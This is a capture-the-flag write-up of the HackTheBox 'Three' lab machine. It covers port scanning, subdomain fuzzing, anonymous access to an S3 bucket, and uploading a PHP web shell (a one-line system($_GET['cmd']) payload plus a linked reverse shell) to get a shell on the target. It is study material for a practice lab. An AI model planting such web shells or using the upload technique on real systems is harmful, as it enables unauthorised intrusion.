 ```yaml
---
title: "HackTheBox - Three"
author: Nasrallah
description: ""
date: 2022-07-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, wfuzz, subdomain, s3]
img_path: /assets/img/hackthebox/machines/three/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Three](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com). The target is running webserver on port 80, we run a subdomain scan on the target and find that it has a s3 bucket. We can connect to the that bucket without creds, upload a reverse shell and get in.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.182.157 (10.129.182.157)                                                                                                          
Host is up (0.26s latency).                                                                                                                                   
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT   STATE SERVICE VERSION                                                                                                                                  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                             
| ssh-hostkey:                                                                                                                                                
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)                                                                                                
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)                                                                                               
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)                                                                                             
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                           
|_http-title: The Toppers                                                                                                                                     
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                                  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found port 22(SSH) and 80(HTTP) open.

## Web

Let's go to the webpage.

![](1.png)

Nothing much but if we got the the contact section, we find a domain name.

![](3.png)

Let's add that to the `etc/hosts` file.

```terminal
sudo echo '10.129.182.157   thehoppers.htb` >> /etc/hosts
```

Every time we find a domain, it's a good idea to enumerate for subdomains.

## Wfuzz

Let's enumerate subdomains with `wfuzz`.

```terminal
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb/ -H "Host: FUZZ.thetoppers.htb" --hl 234
```

![](2.png)

We found `s3` subdomains which is Amazon’s cloud-based object storage service.

# **Foothold**

A quick search on google we find that we can use `AWScli` to connect to that `s3` bucket.

We need to configure it using the following command.

```terminal
aws configure

AWS Access Key ID [None]: none
AWS Secret Access Key [None]: none
Default region name [None]: none
Default output format [None]: none
```
> I provided a random value to the fields because sometimes the server is configured to not check authentication and it must be set to something for `aws` to work.

![](4.png)

Before we continue, we need to add the `s3.thetoppers.htb` to our `/etc/hosts` file.

![](5.png)

Great! To list the content of the s3 bucket, we use the following command:

```terminal
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

![](6.png)

Found an object with the name `thetoppers.htb`, to list it, we add `s3://thetoppers.htb` at the end of our command:

```terminal
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![](7.png)

We found `index.php` and `htaccess` files and a directory named `images`. This bucket must be the root directory of the website.

The awscli allows us to cp files to the bucket. We can leverage that and upload a php reverse shell to get access to the target. We can use [Pentest Monkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or use a simple php script that gives us command execution on the target.

```php
<?php system($_GET["cmd"]); ?>
```

I just uploaded the reverse shell.

![](9.png)

Next is to setup a listener and request the `shell.php` file to trigger it and get a reverse shell.

![](8.png)

Then we stabilize our shell with python pty:

```terminal
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

**ctrl + z**

stty raw -echo;fg
```

![](10.png)

We can find the flag under `/var/www`.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).